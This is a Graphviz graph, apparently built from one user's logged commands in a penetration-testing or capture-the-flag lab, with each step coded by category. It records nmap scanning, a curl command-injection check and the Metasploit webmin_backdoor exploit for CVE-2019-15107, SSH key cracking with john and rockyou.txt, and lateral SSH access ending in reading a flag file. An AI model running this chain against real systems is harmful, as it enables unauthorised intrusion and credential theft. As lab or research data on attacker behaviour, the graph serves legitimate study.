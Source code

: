 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	3 [label="msfconsole M2 "]
	4 [label="msfconsole V2 "]
	7 [label="msfconsole V2 "]
	8 [label="db_nmap 172.18.1.5 V0 "]
	11 [label="show exploits M8 "]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	37 [label="msfconsole V2 "]
	40 [label="msfconsole V2 "]
	41 [label="show exploit V8 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 M6 "]
	46 [label="set RHOST https://localhost:10000 A6 "]
	47 [label="show options M5 "]
	48 [label="set RHOST 172.18.1.5 A6 "]
	49 [label="show options V5 "]
	50 [label="check A7 "]
	51 [label="exploit V8 "]
	52 [label="check A7 "]
	53 [label="exploit V8 "]
	54 [label="set LHOST 0.0.0.0 V6 "]
	55 [label="exploit V8 "]
	56 [label="show A5 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	59 [label="set LHOST 10.1.135.83 V6 "]
	60 [label="exploit V8 "]
	61 [label="msfconsole V2 "]
	62 [label="check A7 "]
	64 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	65 [label="set RHOST 172.18.1.5 A6 "]
	66 [label="set LHOST 10.1.135.83 V6 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole V2 "]
	74 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	75 [label="set RHOST 172.18.1.5 A6 "]
	76 [label="set LHOST 10.1.135.83 V6 "]
	77 [label="check A7 "]
	78 [label="exploit V8 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- M14 "]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key V14 "]
	190 [label="/usr/share/john/ssh2john.py key A14 A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A14 A16 "]
	192 [label="john key@ A14 "]
	193 [label="john key2 A14 "]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ V14 "]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 V14 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa M12 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 M16 "]
	202 [label="ssh eve@10.1.17.4 V16 "]
	203 [label="ls A10 "]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A12 A17 "]
	209 [label="ssh eve@10.1.17.4 V16 "]
	210 [label="ls A10 "]
	212 [label="ls A10 "]
	213 [label="cat flag.txt M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 23 [constraint=false]
	23 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 37 [constraint=false]
	37 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 90 [constraint=false]
	90 -> 136 [constraint=false]
	136 -> 142 [constraint=false]
	142 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
